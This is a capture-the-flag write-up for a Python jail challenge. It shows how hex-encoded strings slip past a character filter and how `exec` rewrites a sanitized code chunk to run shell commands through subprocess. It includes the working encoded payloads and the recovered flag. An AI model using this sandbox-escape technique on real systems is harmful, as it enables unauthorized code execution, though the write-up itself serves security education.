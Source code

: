 ```yaml
---
layout: post
date: 2023-09-25 08:00:00 +0200
title: "Not a last minute Pyjail"
excerpt_separator: <!--more-->
---
```


In this challenge we need to solve a pyjail that looks very similar to another pyjail.
<!--more-->
From the very beginning, this pyjail hints that it was ripped from another CTF.

## Mind games

The challenge description comes with the notice:

> This jail was totally not made last minute (based on gctf treebox)

The title also hints that this was quickly put together.

Opening the file, we notice a copyright notice from Google in 2022.

```py
# Copyright 2022 Google LLC
...
# Flag is in a file called "flag" in cwd.
```

The rest of the code looks extremely similar except for 3 major differences:
- The AST is filtered on a whitelist rather than a blacklist
- The characters `@.()#` are banned
- The code is run in chunks delimited by `--CHUNK`

As you probably guessed by now, this challenge has nothing to do with previous challenges.

## The exploit

When we run `exec` we get access to the current context, so we could modify the code contained in the second chunk after it got sanitized.

## The code

We want to encode all our characters as hex to bypass the filters.

let's inject
```py
import subprocess;
p = subprocess.Popen("ls /", stdout=subprocess.PIPE, shell=True);
(output, err) = p.communicate();
print(output)
```

The code we give netcat is:

```
chunks[1] = "\x69\x6d\x70\x6f\x72\x74\x20\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x3b\x70\x20\x3d\x20\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x50\x6f\x70\x65\x6e\x28\x22\x6c\x73\x20\x2f\x22\x2c\x20\x73\x74\x64\x6f\x75\x74\x3d\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x50\x49\x50\x45\x2c\x20\x73\x68\x65\x6c\x6c\x3d\x54\x72\x75\x65\x29\x3b\x28\x6f\x75\x74\x70\x75\x74\x2c\x20\x65\x72\x72\x29\x20\x3d\x20\x70\x2e\x63\x6f\x6d\x6d\x75\x6e\x69\x63\x61\x74\x65\x28\x29\x3b\x70\x72\x69\x6e\x74\x28\x6f\x75\x74\x70\x75\x74\x29"
--CHUNK
1 + 1
--END
```

We find that the flag is located in `/flag.poyvHVzi1MUB72nR0gly.txt`

Let's modify our injected code cat

```py
import subprocess;
p = subprocess.Popen("cat /flag.poyvHVzi1MUB72nR0gly.txt", stdout=subprocess.PIPE, shell=True);
(output, err) = p.communicate();
print(output)
```

The code we give netcat is:

```
chunks[1] = "\x69\x6d\x70\x6f\x72\x74\x20\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x3b\x70\x20\x3d\x20\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x50\x6f\x70\x65\x6e\x28\x22\x63\x61\x74\x20\x2f\x66\x6c\x61\x67\x2e\x70\x6f\x79\x76\x48\x56\x7a\x69\x31\x4d\x55\x42\x37\x32\x6e\x52\x30\x67\x6c\x79\x2e\x74\x78\x74\x22\x2c\x20\x73\x74\x64\x6f\x75\x74\x3d\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x50\x49\x50\x45\x2c\x20\x73\x68\x65\x6c\x6c\x3d\x54\x72\x75\x65\x29\x3b\x28\x6f\x75\x74\x70\x75\x74\x2c\x20\x65\x72\x72\x29\x20\x3d\x20\x70\x2e\x63\x6f\x6d\x6d\x75\x6e\x69\x63\x61\x74\x65\x28\x29\x3b\x70\x72\x69\x6e\x74\x28\x6f\x75\x74\x70\x75\x74\x29"
--CHUNK
1 + 1
--END
```

## Flag
`vsctf{PYTHONNNNNN_SO_FUNNN}`